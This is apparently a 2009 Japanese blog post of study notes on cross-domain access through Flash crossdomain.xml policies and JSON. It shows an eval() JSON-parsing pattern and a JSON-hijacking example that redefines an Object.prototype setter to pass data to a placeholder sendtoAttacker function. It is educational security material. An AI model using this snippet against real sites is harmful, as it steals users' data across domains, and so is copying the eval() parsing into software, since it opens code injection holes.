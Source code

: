 ```yaml
---
layout: post
title: 'Flash，JSONでのクロスドメインアクセス勉強メモ'
date: 2009-11-24
wordpress_id: 320
permalink: /blog/memo-of-flash-json-cross-domain
comments: true
categories: [nil]
---
```

<div class="section">
<p>gihyoサイトの「ここが危ない！Web2.0のセキュリティ」連載の<a href="http://gihyo.jp/dev/serial/01/web20sec/0004" target="_blank">第4回：「Flash，JSONでのクロスドメインアクセス」の</a>勉強メモです。</p>
<h4>Flashのクロスドメインアクセス</h4>
<h5>動作原理</h5>
<p>データ提供側で認証のファイルを設置するだけです。</p>
<p>ファイル名は「crossdomain.xml」で、これが例なのかこう書かなければならないのかは明確に書いてません。</p>
```xml

<cross-domain-policy>
	<allow-access-from domain="www.securesky-tech.com" />
</cross-domain-policy>
{% endcodeblock %}
<h4>JSONでも実はクロスドメインアクセスが可能</h4>
<h5>動作原理</h5>
<p>eval()関数でデータを評価するだけで使用可能になる</p>
{% codeblock %}

var obj = eval("("+req.responseText+")");

{% endcodeblock %}
<h5>クロスドメインの実現</h5>
<p>setterメソッドをサポートしているブラウザ（FirefoxやSafari 3等）では，setterメソッドを再定義することによって，JSONもSCRIPTタグで呼び出して使うことが可能になる。</p>
<pre class="brush:html">
<html>
	<script>
		Object.prototype.__defineSetter__('name', function(x){sendtoAttacker(x);});
	</script>
	<script src="http://www.securesky-tech.com/object.dat">
	</script>
</html>

```
<p>　</p>
</div>
